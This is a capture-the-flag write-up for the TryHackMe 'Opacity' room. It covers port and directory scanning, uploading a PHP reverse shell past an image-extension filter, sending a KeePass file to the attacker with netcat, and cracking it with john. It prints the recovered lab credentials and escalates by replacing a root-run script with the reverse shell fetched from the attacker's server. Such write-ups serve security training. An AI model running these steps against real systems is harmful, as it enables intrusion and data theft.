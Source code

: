 # Opacity

**Room Link:** [https://tryhackme.com/room/opacity](https://tryhackme.com/room/opacity)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (296).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (297).png" alt=""><figcaption></figcaption></figure>

Found this page, I tried different extensions but it looks like it only accepts extentsions that images uses such as .jpg and .png

<figure><img src="../../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php .
subl php-reverse-shell.php 
```

<figure><img src="../../.gitbook/assets/image (298).png" alt=""><figcaption></figcaption></figure>

**Kali #1**

```
python2 -m SimpleHTTPServer 81
```

**Kali #2**

```
nc -lvnp 1337
```

**Browser**

```
http://$KALI:81/php-reverse-shell.php#.jpg
```

<figure><img src="../../.gitbook/assets/image (299).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (301).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (300).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
pytho3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



##

### Transfer file

In /opt we find a keepass file so I transfered back to Kali to try to crack it

<figure><img src="../../.gitbook/assets/image (303).png" alt=""><figcaption></figcaption></figure>

**Kali(receiving)**

```
nc -l -p 1234 > dataset.kdbx
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < dataset.kdbx
```



### Crack KeePass

**Kali**

```
/opt/john/keepass2john dataset.kdbx > johnkeepass.txt
john --wordlist=/usr/share/wordlists/rockyou.txt johnkeepass.txt 
```

<figure><img src="../../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
keepassx dataset.kdbx 
Password: 741852963
```

<figure><img src="../../.gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH

**Kali**

```
ssh sysadmin@$VICTIM
Password: Cl0udP4ss40p4city#8700
```

<figure><img src="../../.gitbook/assets/image (306).png" alt=""><figcaption></figcaption></figure>

## PSPY

**Kali**

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32 
python2 -m SimpleHTTPServer 81
```

**Victim**

```
wget http://$KALI:81/pspy32 
chmod +x pspy32 
./pspy32
```



<figure><img src="../../.gitbook/assets/image (307).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (308).png" alt=""><figcaption></figcaption></figure>

The script calls backup.inc.php in the lib folder, we can't edit this file but we can delete it and replace it so I copied the same php reverse shell script that was used before and replaced backup. After that I just waited until the script ran on its own.

**Kali #1**

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32 
python2 -m SimpleHTTPServer 81
```

**Victim**

```
rm -f backup.inc.php
wget http://10.10.215.36:81/php-reverse-shell.php 
cp php-reverse-shell.php backup.inc.php
```

**Kali #2**

```
nc -lvnp 1337
```

<figure><img src="../../.gitbook/assets/image (309).png" alt=""><figcaption></figcaption></figure>





































